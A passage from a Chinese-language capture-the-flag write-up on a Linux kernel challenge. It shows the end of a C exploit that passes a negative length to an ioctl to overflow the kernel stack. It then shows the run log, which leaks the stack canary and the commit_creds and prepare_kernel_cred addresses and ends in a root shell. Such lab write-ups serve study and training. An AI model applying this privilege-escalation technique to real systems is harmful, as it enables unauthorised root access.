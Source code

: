 ```c

    write(fd, name_payload, sizeof(name_payload));

    // triger stack mash and excute shellcode to promote to root
    long long len = -65336;//unsinged short len ==200=8*25 which is size of name_payload
    ioctl(fd, core_copy_func_cmd, len);

    return 0;
}
```

执行结果如下：

```bash
ash@ash-VirtualBox:~/03.ctf/10.kernel/01.core_give/give_to_player$ ./start3.sh 


SeaBIOS (version 1.13.0-1ubuntu1)


iPXE (http://ipxe.org) 00:03.0 CA00 PCI2.10 PnP PMM+1FF8C8B0+1FECC8B0 CA00



Booting from ROM...


[    0.043542] Spectre V2 : Spectre mitigation: LFENCE not serializing, switching to generic retpoline
udhcpc: started, v1.26.2
udhcpc: sending discover
udhcpc: sending select for 10.0.2.15
udhcpc: lease of 10.0.2.15 obtained, lease time 86400
/ $ ./exp_3 
a43af88a5e527900 00007ffcad163290 ffffffffc007619b ffffa242d7f50900 ffffffff83ddd6d1 000000000000889b ffffa242d7f4f000 ffffffff83d8ecfa 0000000000000026 0000000000000000 0000000000000000 
get canay is:a43af88a5e527900
commit_cred:ffffffff83c9c8e0
prepare_kernel_cred:ffffffff83c9cce0
sizeof name_payload:200
user_cs:0x0000000000000033
user_ss:0x000000000000002b
user_rsp:0x00007ffcad163240
user_flag:0x0000000000000206
/ # id
uid=0(root) gid=0(root)
/ # whoami
root
/ # 
```

### 4.4.工具使用：
